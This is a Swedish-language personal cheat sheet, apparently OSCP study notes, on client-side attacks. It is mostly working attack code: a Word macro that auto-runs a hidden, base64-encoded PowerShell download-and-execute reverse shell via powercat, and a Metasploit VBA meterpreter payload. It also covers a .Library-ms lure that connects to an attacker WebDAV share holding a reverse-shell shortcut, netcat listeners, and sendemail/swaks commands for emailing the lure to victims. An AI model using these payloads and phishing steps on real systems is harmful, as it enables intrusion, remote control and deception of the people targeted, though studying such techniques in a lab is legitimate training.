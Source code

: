 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/4-client-side/2-client-side-attacks/"}
---
```


### Macros:
- Välj "Word 97-2003 Document (.doc)"
- Funkar inte med .docx
- Gå till "View" -> Macros -> Skriv ett namn -> Välj dokumentet under "Macros in"
- Lägg till AutoOpen() och Document_Open()

#### Macro Reverse Shell
1. Anpassa revshell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2. Encoda till base64:
```
www.base64encode.org

#Välj 'UTF-16LE' under 'Destination Character Set'
```
3. Skapa strängar att binda ihop i macrot m.h.a. python:
```python
str = "powershell.exe -nop -w hidden -e <bae64-encoded-string>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Sätt ihop strängarna med resterande delar av macrot:
```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAd"
	Str = Str + "AAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwA"
	Str = Str + "gADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADgAMQAgAC0AcAAgA"
	Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA="
	Str = Str + "="

    CreateObject("Wscript.Shell").Run Str
End Sub
```
5. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

#### Metasploit Macro:
```
use windows/meterpreter/reverse_https  
set PAYLOAD windows/meterpreter/reverse_https  
set LHOST Your_IP_Address  
set LPORT 443  
set AutoRunScript post/windows/manager/smart_migrate  
generate -f vba
```

-------------
### Windows Library Files
- Skickar en '.Library-ms'-fil till offret
- Filsystemet i windows kopplar sig mot en uppsatt WebDAV innehållandes en '.lnk'-fil
- Svårt att servera lnk-filen direkt till offret då det mest troligt kommer filtreras bort, så därför detta bra alternativ
- Kommer se ut som ett vanligt directory i Windows vilket är legit

#### Instruktioner:
1. Skapa webdav-mapp någonstans:
```bash
mkdir /home/kali/webdav
```
2. Boota upp webdaven:
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
3. Skapa en '.Library-ms'-fil med typ VSCode
4. Fyll filen med XML-kod som gör den mer legit.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://web-dav-url</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
5. Skapa shortcut-fil på webdaven som pekar mot reverse-shell:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1'); powercat -c 192.168.45.181 -p 4444 -e powershell"
```
![Pasted image 20230706132751.png|550](/img/user/IMAGES/Pasted%20image%2020230706132751.png)
6. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

Notes:
- Bild-index -1002 = documents folder icon, -1003 = pictures folder icon
- På grund av att windows ändrar på filen i syfte att optimera kan filen sluta funka efter restart eller liknande.
- Om vill pusha confen till smb:
```bash
cd <web-dav-dir>
smbclient //<client-ip>/share -c 'put <filnamn>.Library-ms'
```
-----------------
#### SendEmail:
```bash
sendemail -f crabfeather@localhost -t dave.wizard@supermagicorg.com -a config.Library-ms -s 192.168.224.199 -m "hello mr, please open file"
```
-----------------
#### Swaks:
```
sudo swaks -t <targetmail1> -t <targetmail2> --from <authmail> --attach @config.Library-ms --server <smtpserver> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
Example:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

